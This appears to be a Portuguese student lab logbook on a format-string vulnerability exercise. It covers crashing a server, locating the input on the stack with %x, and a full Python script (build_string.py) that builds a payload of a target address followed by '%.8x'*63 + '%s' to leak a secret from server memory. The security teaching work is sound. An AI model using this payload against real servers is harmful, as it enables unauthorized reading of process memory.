 # LOGBOOK 7

## Tarefa 1

Nesta tarefa tinhamos como objetivo causar o crash do servidor.

**Código injetado para o servidor.**<br>
![image 1](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180216.png)

**Servidor sem crash, ou seja, aparece:**<br>
```(^_^)(^_^)  Returned properly (^_^)(^_^)```

![image 2](docs/images/Captura_de_ecr%C3%A3_2023-11-17_175035.png)

**Código injetado que causa crash do servidor.**<br>
![image 3](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180241.png)

**Servidor com crash, ou seja, não aparece:**<br>
```(^_^)(^_^)  Returned properly (^_^)(^_^)```<br>

![image 4](docs/images/Captura_de_ecr%C3%A3_2023-11-17_180302.png)

## Tarefa 2.A

Nesta tarefa tinhamos de descubrir quantos %x eram necessários para fazer print dos 4 primeiros bytes do input. Escolhemos `@@@@`, pois podemos identificá-lo facilmente por `0x40404040`.

**Código que injetamos, com 64 vezes `%x`.**<br>
![image 5](docs/images/Captura_de_ecr%C3%A3_2023-11-17_184517.png)

**Servidor com `0x40404040`.**<br>
![image 6](docs/images/Captura_de_ecr%C3%A3_2023-11-17_184539.png)

## Tarefa 2.B

Nesta tarefa tinhamos de usar o conhecimento obtido na tarefa 2.A para obter uma mensagem secreta do servidor.
Para isso, modificámos o *build_string.py* que nos foi disponibilizada.

***build_string.py* usada.**<br>
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```
**Servidor com a mensagem secreta.**<br>
![image 7](docs/images/Captura_de_ecr%C3%A3_2023-11-17_191650.png)

## Tarefa 3.A

## Tarefa 3.B


